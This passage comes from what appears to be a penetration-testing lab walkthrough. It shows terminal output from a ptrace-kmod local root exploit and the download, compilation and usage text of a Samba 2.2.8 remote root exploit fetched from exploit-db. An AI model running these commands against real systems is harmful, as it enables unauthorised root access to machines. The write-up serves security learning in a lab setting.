         0K ...                                                   100% @ 957.28 KB/s  
      
    01:03:54 (957.28 KB/s) - `ptrace-kmod.c' saved [3921/3921]  
      
    [+] Attached to 6225  
    [+] Signal caught  
    [+] Shellcode placed at 0x4001189d  
    [+] Now wait for suid shell...  
    whoami  
    root  
    

  
Shell with root access directly? I almost wet myself. Let's check out other
ways.  

## 4\. Exploiting Samba (and getting root too!)

A quick search for Samba 2.2.1 exploits reveals a couple of interesting
exploits on exploit-db.  

  * [Samba 2.2.8 - Remote Root Exploit](https://www.exploit-db.com/exploits/10/)
  * [0x333hate.c ](http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c)

Both work, there's a handful more PoC for this exploit and an MSF module too,
I'll only demonstrate the first exploit.  
  

    
    
    root@kali:~# wget https://www.exploit-db.com/download/10  
    --2016-11-12 00:16:51--  https://www.exploit-db.com/download/10  
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8  
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.  
    HTTP request sent, awaiting response... 200 OK  
    Length: unspecified [application/txt]  
    Saving to: ‘10’  
      
    10                            [ <=>                                 ]  44.06K  --.-KB/s    in 0.1s      
      
    2016-11-12 00:16:59 (364 KB/s) - ‘10’ saved [45117]  
      
    root@kali:~# mv 10 b.c  
    root@kali:~# gcc b.c  
    root@kali:~# ./a.out   
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)  
    --------------------------------------------------------------  
    Usage: ./a.out [-bBcCdfprsStv] [host]  
      
    -b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)  
    -B <step>       bruteforce steps (default = 300)  
    -c <ip address> connectback ip address  
    -C <max childs> max childs for scan/bruteforce mode (default = 40)  
    -d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)  
    -f              force  
    -p <port>       port to attack (default = 139)  
    -r <ret>        return address  
    -s              scan mode (random)  
    -S <network>    scan mode  
    -t <type>       presets (0 for a list)  
    -v              verbose mode  
      